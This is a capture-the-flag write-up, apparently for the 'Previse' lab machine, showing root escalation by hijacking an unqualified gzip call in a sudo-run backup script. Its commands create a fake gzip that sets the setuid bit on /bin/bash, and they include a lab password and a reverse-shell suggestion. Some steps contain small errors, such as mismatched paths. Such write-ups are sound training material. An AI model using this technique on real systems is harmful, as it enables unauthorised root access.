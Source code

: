 ----

# Privilege Escalation

we can use the command:
> sudo -l

to see sudo permissions

```` bash 
m4lwhere@previse:~$ sudo -l
sudo -l
[sudo] password for m4lwhere: ilovecody112235!

User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
m4lwhere@previse:~$ 
````
Analysis of 

 ` /opt/scripts/access_backup.sh script`
 

```` bash
m4lwhere@previse:~$ cat /opt/scripts/access_backup.sh
cat /opt/scripts/access_backup.sh

#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
m4lwhere@previse:~$ 

````

It doesn't specify the gzip path so we can use it to exploit vulnerability of "path injection"

----

# Get root flag

I creat my gzip and added /tmp to the $PATH

```` bash
m4lwhere@previse:~$ echo "chmod +s /bin/bash" > gzip
m4lwhere@previse:~$ chmod +x gzip
m4lwhere@previse:~$ export PATH=/tmp:$PATH
m4lwhere@previse:~$ sudo /opt/script/access_backup.sh
m4lwhere@previse:~$ bash -p
bash-4.4# whoami
bash-4.4# root
bash-4.4# cat /root/root.txt

````
Also, we can get root privilege by adding our reverse shell on our gzip and starting listener on our server or attack box.
